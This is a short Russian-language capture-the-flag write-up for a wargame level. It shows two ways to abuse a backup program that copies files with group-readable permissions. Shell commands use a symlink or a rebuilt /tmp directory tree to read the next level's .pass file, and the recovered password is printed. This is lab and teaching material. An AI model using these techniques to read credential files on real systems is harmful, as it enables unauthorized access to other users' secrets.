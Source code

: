 ## Level08

Данная программа считывает файл, переданный в качестве аргумента командной строки, и копирует его в `./backup/<filename>`. Cкопированный файл создается с разрешениями `660` для пользователя `level09` и группы `users`. Так как все пользователи принадлежат к группе `users`, мы сможем прочитать любой скопированный файл.

### Подход 1

Создадим символическую ссылку:

```bash
> chmod 770 .
> ln -s ../level09/.pass pass
> chmod 777 pass
> ./level08 pass
> cat backups/pass
fjAwpJNs2vvkFLRebEvAQ2hFZ4uQBWfHRsP62d8S
> rm pass && chmod 550 . #чистим
```

### Подход 2

Повторим иерархию директорий в `/tmp`:

```bash
> cd /tmp
> mkdir -p backups/home/users/level09
> ~/level08 /home/users/level09/.pass
> cat backups/home/users/level09/.pass
fjAwpJNs2vvkFLRebEvAQ2hFZ4uQBWfHRsP62d8S
```



